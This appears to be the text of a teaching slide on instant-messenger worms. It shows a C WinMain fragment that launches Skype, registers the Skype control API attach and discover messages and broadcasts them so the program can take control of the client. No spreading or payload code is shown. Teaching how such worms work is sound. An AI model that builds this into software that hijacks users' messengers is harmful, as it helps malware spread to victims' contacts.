

IM Worms
int __stdcall WinMain (HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
	MSG oMessage;
	SkypeAttach = RegisterWindowMessage("SkypeControlAPIAttach");
	SkypeDiscover = RegisterWindowMessage("SkypeControlAPIDiscover");

	RunSkype(); /* (try to) run skype */

	if(SkypeAttach != 0 && SkypeDiscover != 0)
	{
		MakeWindow(); /* Create window */
		SendMessage(HWND_BROADCAST,  //A handle to the window whose window procedure will receive the message.
                                                                        SkypeDiscover,   //The message to be sent.
                                                                        Answer,  //A handle to the window passing the data.
                                                                        0);   //A pointer to a COPYDATASTRUCT structure that contains the data to be passed.

		while(GetMessage( &oMessage, 0, 0, 0)!=FALSE) //return all available messages
		{
		TranslateMessage(&oMessage);
		DispatchMessage(&oMessage);
		}

	}

}